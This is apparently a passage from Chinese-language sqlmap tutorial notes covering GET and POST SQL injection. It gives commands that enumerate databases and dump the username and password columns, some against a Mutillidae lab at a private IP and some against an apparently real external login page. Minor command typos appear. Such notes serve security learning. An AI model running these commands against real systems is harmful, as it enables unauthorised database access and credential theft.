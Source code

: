 `sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --dbs`

**爆当前数据库的信息**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --current-db`

**指定库名列出所有表**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp --tables `

**指定库名表名列出所有字段**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts --columns`

**指定库名表名下载出指定字段内容**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts -C username password mysignature -dump`

### POST注入

#### 自动填写表单

**判断是否有post注入**

`Csqlmap -u http://vip.fj0730.cn/login.asp --forms`

**查找数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`

**查找当前数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`

查找表名、字段名、爆出数据与GET注入一致

#### sqlmap结合burp

1. 抓包
2. 全选抓的数据包（RAW页面的内容），右键 | 保存到1.txt文件
3. `sqlmap -r '/home/1.txt'`
4. 查找当前数据库 `sqlmap -r '/home/1.txt' --current-db`
5. 剩下的操作与之前的一致

#### 指定表单注入

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`


### sqlmap选项

`--batch` 永远不要求用户输入
